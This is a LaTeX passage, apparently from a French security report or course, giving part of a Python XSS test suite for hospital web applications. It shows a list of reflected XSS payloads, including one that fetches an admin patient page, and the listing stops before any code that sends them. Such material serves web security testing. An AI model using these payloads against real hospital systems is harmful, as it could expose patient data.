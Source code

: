 \subsubsection{Payloads de Test XSS}

\paragraph{Scripts d'Attaque Automatisee}
\begin{lstlisting}[style=pythonstyle,caption=Suite de tests XSS automatises pour application medicale]
#!/usr/bin/env python3
"""
XSS Test Suite for Hospital Web Applications
Tests various XSS vectors on medical forms
"""

import requests
import time
import json
from urllib.parse import urlencode
import logging

class HospitalXSSTestSuite:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.test_results = []
        
        logging.basicConfig(level=logging.INFO)
        self.logger = logging.getLogger(__name__)

    def run_all_tests(self):
        """Execute complete XSS test suite"""
        tests = [
            self.test_reflected_xss_search,
            self.test_stored_xss_patient_form,
            self.test_dom_based_xss_callback,
            self.test_attribute_injection,
            self.test_javascript_injection,
            self.test_medical_context_xss
        ]
        
        self.logger.info("Starting XSS test suite on hospital application")
        
        for test in tests:
            try:
                result = test()
                self.test_results.append(result)
                time.sleep(2)  # Pause entre tests
            except Exception as e:
                self.logger.error(f"Test failed: {str(e)}")
        
        return self.test_results

    def test_reflected_xss_search(self):
        """Test Reflected XSS dans fonction de recherche patient"""
        test_name = "Reflected XSS - Patient Search"
        
        payloads = [
            "<script>alert('XSS-Hospital-Search')</script>",
            "<img src=x onerror=alert('XSS-Medical-Image')>",
            "<svg onload=alert('XSS-SVG-Medical')>",
            "javascript:alert('XSS-JS-Protocol')",
            "<iframe src=javascript:alert('XSS-IFrame')></iframe>",
            "';alert('XSS-SQL-Break');//",
            "<script>fetch('/admin/patients').then(r=>r.text()).then(d=>alert(d))</script>"
        ]
        

\end{lstlisting}
